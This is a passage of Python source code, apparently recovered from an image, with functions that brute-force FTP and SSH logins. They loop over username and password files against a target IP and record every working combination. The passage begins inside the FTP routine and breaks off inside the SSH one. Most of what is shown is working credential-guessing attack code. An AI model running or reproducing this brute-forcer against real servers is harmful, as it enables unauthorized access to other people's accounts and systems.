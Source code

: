     for user in users_list:
        user = user.strip()
        for passwd in pass_list:
            passwd = passwd.strip()
            try:
                print(f"Trying: {user}: {passwd}")
                ftpServer.connect(targetIP, 21, timeout=1000)
                ftpServer.login(user, passwd)
                print(f"[+] Found combo for FTP:\n\tHOSTNAME: {targetIP}\n\tUSERNAME: {user}\n\tPASSWORD: {passwd}")
                user_pass.append([user, passwd])
                FTP_credentials[targetIP] = user_pass
                ftpServer.close()
                break
            except Exception as error:
                print(f"[!] {error}")
    return FTP_credentials

def brute_force_SSH(targetIP: str) -> dict:
    """Gets ip address and tries to login to SSH server 
    users and passwords from file
    uses module paramiko.SSHClient()

    Args:
        targetIP (str): ip address
    
    Returns: SSH_cerdentials (dict) : key: targetIP, value: list of lists; each list consists of pair user and password
    """
    print(f"Calling: brute_force_SSH on {targetIP}")

    # files: users and passwords operations

    password_file = "passwd.txt"
    users_file = "users.txt"
    users = open(users_file)
    passwds = open(password_file)
    users_list = users.read().split("\n")
    pass_list = passwds.read().split("\n")
    users.close()
    passwds.close()

    # initialize SSH client
    SSH_credentials = {}
    user_pass = []

    for user in users_list:
        user = user.strip()
        for passwd in pass_list:
            passwd = passwd.strip()
            try:
                sshserver = paramiko.SSHClient()
                # add to know hosts
                sshserver.set_missing_host_key_policy(paramiko.AutoAddPolicy())
                sshserver.load_system_host_keys()
                sshserver.connect(hostname=targetIP, username=user, password=passwd, timeout=3)
                tr = sshserver.get_transport()
                tr.banner_timeout = 3000
                tr.set_keepalive(3)
                tr.close()
                #tr.stop_thread()
                sshserver.close()